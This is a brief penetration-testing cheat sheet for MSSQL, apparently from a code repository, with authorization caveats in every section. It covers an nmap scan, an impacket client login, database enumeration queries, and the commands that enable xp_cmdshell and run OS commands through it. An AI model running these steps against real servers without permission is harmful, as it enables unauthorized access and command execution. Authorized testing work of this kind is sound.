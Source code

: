 # MSSQL — Deep Dive (Authorized targets only)

## Discovery
nmap -p 1433 -sV --script ms-sql-info,ms-sql-ntlm-info -oA mssql_scan_<IP> <IP>

## Client (approved creds)
impacket-mssqlclient <DOMAIN>/<user>@<IP> -windows-auth
# Once connected:
#   SELECT @@version;
#   SELECT name FROM sys.databases;
#   USE <db>; SELECT TOP 5 * FROM <table>;

## Dangerous features (enable/use ONLY if scope allows)
# xp_cmdshell usage is sensitive:
#   EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
#   EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
#   EXEC xp_cmdshell 'whoami';

## Notes
- Prefer T-SQL enumeration; avoid OS-level execution unless formally permitted.
